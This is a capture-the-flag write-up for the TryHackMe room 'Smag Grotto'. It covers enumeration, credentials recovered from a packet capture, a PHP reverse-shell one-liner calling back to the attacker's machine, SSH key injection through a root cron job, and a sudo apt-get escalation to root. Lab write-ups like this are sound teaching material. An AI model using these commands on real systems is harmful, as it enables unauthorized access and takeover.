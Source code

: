 # Smag Grotto

![Smag Grotto THM easy room](https://i.imgur.com/C5DIAQd.png)


[Play](https://tryhackme.com/room/room_name_here)

## 1. Scanning & Enumeration
We do the below scans in parallel.

### 1.1. Port Scanning
```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing too special.


### 1.2. Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuste-list-2.3-medium.txt -x 'php,html,txt' -t 32 -q -219
/index.php            (Status: 200) [Size: 402]
/mail                 (Status: 301) [Size: 311] [10.10.62.219/mail/]
```

`/mail/` looks interesting. We explore that below.

### 1.3. Web Exploration
![homepage of smag grotto](https://i.imgur.com/teZV7zS.png)


![the mail directory in the website](https://i.imgur.com/dAFRcPS.png)

We add the `smag.thm` line in `/etc/hosts` file, looking at their emails.
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.62.219    smag.thm
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### 1.4. Wireshark
The website has a file, which we can download just by clicking on it. Exploring it further. 

In one of the packets, we found:
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username={hidden}&password={wow_very_nice}HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Add the `development.smag.thm` along with `smag.thm` domain in the `/etc/hosts` file. It thus looks like the following.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.62.219    smag.thm development.smag.thm
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## 2. Foothold
Logging in using the credentials from wireshark, we get a place to enter commands.
![admin panel on the subdomain and logged in using creds](https://i.imgur.com/nqqDVou.png)

I tried a bunch of commands, and this one stuck: `php -r '$sock=fsockopen("MY_KALI_IP",4444);exec("sh <&3 >&3 2>&3");'`


We get a shell!
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                  
listening on [any] 4444 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.62.219] 33886
bash -i
bash: cannot set terminal process group (707): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ 
```

## 3. PrivEsc
Looking around, I found something intersting in `/etc/crontab` in the last line.

```
www-data@smag:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
```

We see the file `/opt/.backups/jake_id_rsa.pub.backup` is put into jake's authorized keys. This means that if I can get my own, kali SSH public key in here, I would be able to login without a password.

First, we need to make sure we have writing permissions.
```
www-data@smag:/$ ls -la /opt/.backups/jake_id_rsa.pub.backup
ls -la /opt/.backups/jake_id_rsa.pub.backup
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
```
Great! Now I copy pasted my own `id_rsa.pub` key here.
```
www-data@smag:/$ echo "ssh-rsa {wow_nice_looking_key_uh} kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
```

And ...
```
┌──(kali㉿kali)-[/tmp]
└─$ ssh jake@10.10.62.219      
The authenticity of host '10.10.62.219 (10.10.62.219)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.62.219' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
```
Success!

Now for PrivEsc to root. Exploring a bit, I found:
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

Using [GTFOBins - apt-get sudo exploit](https://gtfobins.github.io/gtfobins/apt-get/#sudo) 
```
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami 
root
# 
```
System compromised!
